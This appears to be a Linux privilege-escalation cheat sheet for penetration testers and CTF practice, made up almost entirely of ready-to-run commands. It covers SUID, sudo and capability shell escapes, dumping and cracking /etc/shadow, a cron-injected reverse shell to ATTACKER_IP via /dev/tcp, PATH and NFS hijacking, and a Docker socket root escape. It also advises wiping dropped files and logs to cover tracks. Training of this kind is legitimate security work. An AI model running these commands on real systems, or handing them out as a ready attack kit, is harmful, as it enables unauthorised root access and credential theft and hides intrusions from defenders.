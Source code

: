 ## 1️⃣ System Enumeration

🔍 **Baseline Checks**

```bash
hostname               # Hostname
uname -a               # Kernel & architecture
cat /proc/version      # Kernel build
cat /etc/issue         # OS info
```

🔍 **User & Env**

```bash
id                     # User & groups
env                    # Env variables
history                # Command history
```

🔍 **Network**

```bash
ip a / ifconfig        # Interfaces
ip route / netstat -rn # Routes
ss -tulpan             # Open ports/services
```

🔍 **Permissions & Special Bits**

```bash
find / -perm -4000 -type f -ls 2>/dev/null  # SUID
find / -user root -perm -4000 -exec ls -ldb {} \; # SUID systemwide alt
getcap -r / 2>/dev/null                     # Capabilities
```

🔍 **Scheduled Jobs**

```bash
cat /etc/crontab
ls -la /etc/cron.*/*
crontab -l
```

🔍 **Writable Places**

```bash
find / -writable -type d 2>/dev/null
```

---

## 2️⃣ Automated Enumeration

Use to speed up, **never trust blindly** — validate by hand:
```bash
wget https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/raw/master/linPEAS/linpeas.sh
chmod +x linpeas.sh && ./linpeas.sh
```

---

## 3️⃣ Kernel Exploits

1. `uname -r` — get version
2. Search **CVE**, **searchsploit**, **Exploit-DB**
    ```bash
    searchsploit Linux Kernel <version>
    ```
3. Transfer exploit: `wget`, `scp`, `python3 -m http.server`
4. Compile & run:
    ```bash
    gcc exploit.c -o exploit && ./exploit
    ```
5. `whoami` → verify root

⚠️ **Danger:** Kernel exploits can crash a box — use only when safe.

---

## 4️⃣ Sudo Abuse

🔍 **List allowed commands:**

```bash
sudo -l
```

🔑 **GTFOBins Tricks**

- `find`:    
    ```bash
    sudo find . -exec /bin/sh \\; -quit
    ```
- `vim`:
    ```bash
    sudo vim -c ':!sh'
    ```
- `less`, `nano`: similar `:!bash` or `^R^X` tricks.

Always check [GTFOBins](https://gtfobins.github.io/).

---

## 5️⃣ SUID Binary Abuse

```bash
find / -perm -4000 -type f 2>/dev/null
```

Check unusual SUID binaries (`nmap`, `vim`, `find`):

```bash
nmap --interactive
!sh
```

Or dump shadow:

```bash
/usr/bin/base64 /etc/shadow > /tmp/shadow.b64
base64 -d /tmp/shadow.b64 > /tmp/shadow.txt

unshadow /etc/passwd /tmp/shadow.txt > hashes.txt
john --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt
```

---

## 6️⃣ File Capabilities

Show files with capabilities:

```bash
getcap -r / 2>/dev/null
```

If `cap_setuid`:

```bash
python3 -c 'import os; os.setuid(0); os.system(\"/bin/sh\")'
```

Or use `perl` GTFOBin:

```bash
perl -e 'use POSIX (setuid); POSIX::setuid(0); exec \"/bin/sh\";'
```

---

## 7️⃣ Cron Job Abuse

Find writable cron scripts:

```bash
grep -R \"root\" /etc/cron* 2>/dev/null
```

If writable:

```bash
echo \"bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1\" >> /root/cronjob.sh
nc -lvnp 4444
```

---

## 8️⃣ PATH Hijacking

If a root process calls a binary using relative PATH:

```bash
export PATH=/tmp:$PATH
echo -e '#!/bin/bash\\n/bin/bash' > /tmp/ls
chmod +x /tmp/ls
```

When root runs `ls` → you get root shell.

---

## 9️⃣ NFS `no_root_squash`

Check `/etc/exports`:

```bash
cat /etc/exports
```

If `no_root_squash` → mount:

```bash
mount -o rw ATTACKER_IP:/share /mnt
echo -e '#!/bin/bash\\n/bin/bash' > /mnt/rootshell
chmod +x /mnt/rootshell
chown root:root /mnt/rootshell
chmod 4755 /mnt/rootshell
```

Run on target:

```bash
./rootshell
```

---

## 🔟 Other Useful Vectors

✅ **Sticky Bit Misconfigs:**  
Check `/tmp`:

```bash
ls -ld /tmp
# Should be drwxrwxrwt
```

If `t` is missing, any user can delete others’ files.

✅ **Weak SSH Keys:**

```bash
find / -name id_rsa 2>/dev/null
```

Try recovered private keys with:

```bash
ssh -i id_rsa user@host
```

✅ **Docker Socket:**

```bash
ls -l /var/run/docker.sock
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```

✅ **Kubernetes:**  
Check `/var/run/secrets/kubernetes.io/`.

✅ **Misconfigured Kernel Modules:**  
Look for `insmod` or custom modules with write access.

---

## ✔️ Key Takeaways

1️⃣ **Enum like crazy** — every privesc starts there.  
2️⃣ **Cross-check auto tools** by hand.  
3️⃣ **Use least-destructive first** (sudo, SUID, cron > kernel exploit).  
4️⃣ **Cover your tracks** — clean dropped files/logs.  
5️⃣ **Document everything** for your report.  
6️⃣ **Train constantly** — practice on THM, VulnHub, HackTheBox.

---

